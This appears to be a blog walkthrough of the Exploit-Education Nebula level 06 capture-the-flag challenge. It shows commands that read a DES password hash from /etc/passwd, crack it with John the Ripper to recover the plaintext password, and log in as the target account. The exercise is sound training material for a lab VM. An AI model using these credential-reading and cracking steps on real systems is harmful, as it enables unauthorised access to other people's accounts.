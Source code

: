 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 06"
date:   2019-08-13 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
---
```

### [Exploit Education Level 6](https://exploit.education/nebula/level-06/)
## Challenge
The `flag06` account credentials came from a legacy unix system.

To do this level, log in as the `level06` account with the password `level06`. Files for this level can be found in `/home/flag06`.

## Vulnerability
It is mentioned that the user account was created using a legacy unix system.
In older systems the account passwords used to be saved in the `/etc/passwd` file and was encrypted using a 
weak algorithm (DES Algorithm)

Lets look at the passwd file
```
level06@nebula:/etc$ cat passwd | grep flag06
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
```
And we can see the username and an encrypted password. Lets copy it into a file named `p.john` and try cracking it 
using [John the Ripper](https://www.openwall.com/john/)
```
C:> .\john.exe 'p.john'
Warning: detected hash type "descrypt", but the string is also recognized as "descrypt-opencl"
Use the "--format=descrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 256/256 AVX2])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 642 candidates buffered for the current salt, minimum 1024 needed for performance.
Proceeding with wordlist:/run/password.lst, rules:Wordlist
hello            (flag06) //Password and Username

1g 0:00:00:00 DONE 2/3 (2019-08-07 09:17) 4.166g/s 73616p/s 73616c/s 73616C/s 123456..betabeta
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
And it was cracked quickly since it was using a weak algorithm and a even more weaker password

Lets login using these credentials

```
level06@nebula:/etc$ su - flag06
Password:
flag06@nebula:~$ getflag
You have successfully executed getflag on a target account
```
### Solved!